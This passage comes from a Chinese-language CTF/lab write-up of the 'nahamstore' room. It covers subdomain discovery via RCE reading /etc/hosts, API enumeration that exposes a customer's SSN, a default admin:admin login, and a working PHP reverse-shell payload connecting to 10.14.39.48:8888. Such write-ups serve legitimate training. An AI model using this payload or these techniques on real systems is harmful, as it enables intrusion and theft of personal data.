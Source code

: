 利用rce，查看/etc/hosts，发现几个子域：

	172.17.0.1      nahamstore-2020.nahamstore.thm
	172.17.0.1      nahamstore-2020-dev.nahamstore.thm

![在这里插入图片描述](https://img-blog.csdnimg.cn/a309ceed05b1406b889bb570273e3a0f.png)

对着api再扫一波：

![在这里插入图片描述](https://img-blog.csdnimg.cn/d07f1bd749e44d4ab48412bd39429736.png)

/api/customers回显：

	"customer_id is required"

简单枚举一下就可以找到Jimmy Jones的ssn

![在这里插入图片描述](https://img-blog.csdnimg.cn/d03a866e6cc743c392ae8b0eee139a43.png)

## RCE - 2

8000端口的web什么都没有，扫一波

![在这里插入图片描述](https://img-blog.csdnimg.cn/27a4e5524e6840d78394550725282bec.png)

这是一个登录页面，弱口令就进去了 admin:admin

很明显能看出，这里后台可以编辑marketing子域的页面

修改页面为payload:

```php
<?php
$sock=fsockopen("10.14.39.48",8888);$proc=proc_open("/bin/bash -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

访问被修改的页面，成功getshell:

![在这里插入图片描述](https://img-blog.csdnimg.cn/0af314b206524356b992bdef4f92f3aa.png)
## XXE

我对XXE还是比较陌生，所以这里也是看wp学着做的，事后去多了解了一下xxe

## 结束

打了两天，回顾了许多当时渗透测试基础path中的web以及owasp top 10，我觉得我对xxe还是比较生疏，得找几道xxe的题做做。

全程burp suite立大功

整体来讲，这个房间真的非常不错，前几天我一直不舍得打，一直留到现在，如果有更多这样的房间那就太好了
